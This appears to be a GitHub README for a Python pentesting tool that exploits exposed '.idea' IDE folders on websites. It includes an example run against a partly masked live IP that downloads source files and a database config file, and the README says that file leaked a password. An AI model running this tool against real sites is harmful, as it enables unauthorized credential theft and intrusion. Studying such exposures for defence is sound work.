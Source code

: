# **.idea disclosure exploit**

A script use **.idea** folder to gather sensitive information for pentesters .

Websites not correctly deployed let their IDE config folder (**.idea**) exposed to hacker, 

which can lead password or archived data files leaked.

The scanner will try to download all files, please recheck local files by yourself.

## Requirements

```
pip install lxml requests
```

## Requirements

* 2022-08-05: Bug Fix and python3 support

## Example

Our scanner reported a vulnerability this afternoon

![scanner_pannel](images/scanner_pannel.png)

As you can see,  the file **DbConnCfg.json** leaked db password.

```
D:\IQIYI.codebase\idea_exp>idea_exp.py http://107.{mask}.{mask}.151/
[+] Module name is {mask}
[+] Type is web_module
[+] About 67 urls to process
[200] /cfg/DbConnCfg.json
[200] /bi/applepay/comm.php
[200] /bi/applepay/ipn_ios.php
[404] /auth/auth_ios/auth_guest.php
...
[200] /ver/ver_util.php
All files saved to 107.{mask}.{mask}.151/idea_exp_report.html
```

![contain_password](images/contain_password.png)